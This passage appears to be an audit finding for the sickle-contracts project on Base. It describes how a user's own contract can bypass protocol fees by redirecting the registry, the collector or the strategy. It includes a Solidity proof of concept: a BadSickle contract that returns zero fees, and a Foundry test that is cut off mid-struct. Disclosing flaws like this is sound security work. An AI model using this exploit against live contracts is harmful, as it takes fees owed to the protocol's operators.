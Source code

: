 In its own sickle version of the contract, the user could bypass fees using multiple ways:

- by changing the `registry` address to one that would return 0 as fee.
- By changing the `collector` address to itself to just receive the fees directly.
- By changing the `strategy` parameter to something that is not saved in the official `registry` which would result in 0 as a fee.

Here is a POC using the first and second bypass options (it can be copied and pasted in [AerodromeStrategy.t.sol](https://github.com/vfat-tools/sickle-contracts/blob/8e0e9d5fcb328857182eb948fa682f81d1474913/test/strategies/AerodromeStrategy.t.sol):

```solidity
contract BadSickle {
    address public owner;
    address public registry;
    address public collector;

    constructor(address _owner) {
        owner = _owner;
        registry = address(this);
        collector = address(this);
    }

    function deposit(
        address strategy,
        bytes calldata data
    ) public returns (bool success) {
        (success,) = strategy.delegatecall(data);
    }

    function feeRegistry(bytes32 feeHash) public pure returns (uint256) {
        return 0;
    }
}

...

function test_deposit_DepositsUsingDAINoFees()
        public
        prank
        returns (uint256 depositedAmount)
    {
        //deal dai and deploy custom sickle
        uint256 amountIn = 1000 ether;
        BadSickle badSickle = new BadSickle(sickleOwner);

        deal(Base.DAI, sickleOwner, amountIn);
        IERC20(Base.DAI).approve(address(badSickle), amountIn);

        //prepare deposit call
        IRouter.Route[] memory routeToOther = new IRouter.Route[](1);
        routeToOther[0] = IRouter.Route({
            from: Base.DAI,
            to: Base.WETH,
            stable: false,
            factory: Base.AERODROME_FACTORY
        });

        AerodromeStrategy.ZapInData memory zapData = AerodromeStrategy.ZapInData({
            router: Base.AERODROME_ROUTER,
            tokenIn: Base.DAI,
            amountIn: amountIn,
            routeToIntermediate: new IRouter.Route[](0),
            intermediateMinAmountOut: amountIn,
            routeToOther: routeToOther,
```